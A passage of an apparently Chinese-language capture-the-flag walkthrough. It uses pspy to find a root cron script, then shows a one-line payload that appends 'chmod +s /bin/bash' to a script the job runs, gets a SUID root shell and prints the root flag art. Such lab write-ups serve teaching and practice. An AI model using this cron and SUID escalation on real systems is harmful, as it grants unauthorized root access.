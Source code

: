 weComeInPeace. sh这个文件有时出现有时没有........... 这肯定是key

## 利用定时任务提权
上pspy试试,有个script. sh
```bash
2024/04/19 22:58:18 CMD: UID=0     PID=1      | /sbin/init
2024/04/19 22:58:18 CMD: UID=0     PID=7132   | /bin/sh /root/script.sh
2024/04/19 22:58:18 CMD: UID=0     PID=7133   | sleep 1
2024/04/19 22:58:19 CMD: UID=0     PID=7134   | /bin/sh /root/script.sh
2024/04/19 22:58:19 CMD: UID=0     PID=7135   | /bin/sh /root/script.sh
2024/04/19 22:58:21 CMD: UID=0     PID=7136   | /bin/sh /root/script.sh
```


使用下面的payload

`for i in {1..10000}; do echo 'chmod +s /bin/bash' >> weComeInPeace.sh; done`


然后就获得了suid的bash
```bash
bash-5.1# ls -al /bin/bash
-rwsr-sr-x 1 root root 1234376 Aug  4  2021 /bin/bash
```
## root
```bash
bash-5.1# cd /root
bash-5.1# ls -al
total 28
drwx------  3 root root 4096 Dec 21  2021 .
drwxr-xr-x 19 root root 4096 Dec 19  2021 ..
lrwxrwxrwx  1 root root    9 Dec 21  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 Dec 19  2021 .local
lrwxrwxrwx  1 root root    9 Dec 21  2021 .mysql_history -> /dev/null
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
-rw-r--r--  1 root root 1561 Dec 21  2021 root.txt
-rwxr-xr-x  1 root root  124 Dec 21  2021 script.sh
-rw-r--r--  1 root root    0 Dec 21  2021 .script.sh.swp
bash-5.1# cat root.txt
                 :
                         /`
                         :-
                        ..-
                        - `-
                   ``...-........``
                `..``-://:-::.`  ``..
               `-`  /////+++++/.    `-
               -    s////:-..-:/`    `.
              ..    +//:`    +-`-`    -
              -   -://+`     +/ `o`   -
              -   :/++//.`   `../+    -
              `.  `+++++///:::/+o:    -
               -   `+++///++////o:    -
               -    .++o+///////+:.   -
               -    .+o+Ns:d-s+///// `.
               `.   :/mhMmhMyM++//-. -
                -   -/mMMMMMMMh+/-   -
                -    +yMMMMMMN+o-`  `.    `....
         .-:-`  ..  `+hMmNNhN/+/:-  -   .//::///
      :::/::+/.  -  .+hNsyd/d-o--: `-  ://.` ```
      `::.  //+  -`  :++-++++++o...-  `++`
            .+/- `-  -+://++///+.-:-  ///
            `+/+``:-///://++///+//y+.-///
             -////sssooooooooosssssoo///-
```
